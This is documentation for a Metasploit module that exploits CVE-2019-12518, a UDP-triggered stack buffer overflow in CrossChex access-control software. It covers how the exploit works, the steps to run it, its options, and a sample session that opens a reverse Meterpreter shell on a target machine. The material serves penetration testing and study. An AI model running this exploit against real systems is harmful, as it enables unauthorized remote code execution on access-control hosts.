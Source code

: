 ## Introduction

CrossChex is a personnel identity verification, access control, and time attendance management system compatible with Windows 7,8 & 10. It uses UDP broadcasts to identify and connect with Access Control devices on a network. The code used to handle a response from an Access Control device is vulnerable to a Stack Buffer Overflow attack on CrossChex versions `Crosschex Standard x86 <= V4.3.12`. Tracked as CVE-2019-12518, and as such permits abritrary code execution.

The code used to overflow the Stack Buffer and code an attacker wishes to be executed as a result of the exploit are sent in a single UDP packet as a response to the CrossChex broadcast. As both the exploit and the payload must be contained inside a single UDP packet, an exploit has a maximum size of `8947 Characters`.    

This module exploits CVE-2019-12518 by listening for a CrossChex "new device" broadcast for a given number of seconds (`TIMEOUT`). It then responds with a UDP packet containing shellcode for both the Buffer Overflow exploit and the attacker's chosen payload. The `Space` payload option ensures no payload of too large a size is used to ensure successful explotation. If a broadcast is not detected within the given `TIMEOUT`, the module exits with a warning. 

## Verification Steps

1. Start `msfconsole`
2. `use windows/misc/crosschex_device_bof`
3. `set LHOST vboxnet0`
4. `run`
5. Open CrossChex
6. Navigate to Device > Add
7. Select `Search`
8. Verify payload executes correctly

## Options

1.  `TIMEOUT` Seconds module waits for broadcast, defaults to `1000`.
2.  `CHOST`. Address UDP packet response is sent from. Defaults to `0.0.0.0`.
3.  `CPORT`. Port UDP packet response is sent from. Defaults to `5050` as CrossChex expects communication from this port.

## Compatible Payloads

Any basic x86 windows payload.

## Payload Options
As above.

## Scenarios

```
msf5 exploit(windows/misc/crosschex_device_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] CrossChex broadcast received, sending payload in response
[*] Payload sent
[*] Sending stage (180291 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49160) at 2020-02-10 16:21:13 +0000

meterpreter > ls
Listing: C:\Program Files\Anviz\CrossChex Standard
==================================================
...



```

## References

1. <https://cvedetails.com/cve/CVE-2019-12518>
2. <https://www.0x90.zone/multiple/reverse/2019/11/28/Anviz-pwn.html>
3. <https://www.exploit-db.com/exploits/47734>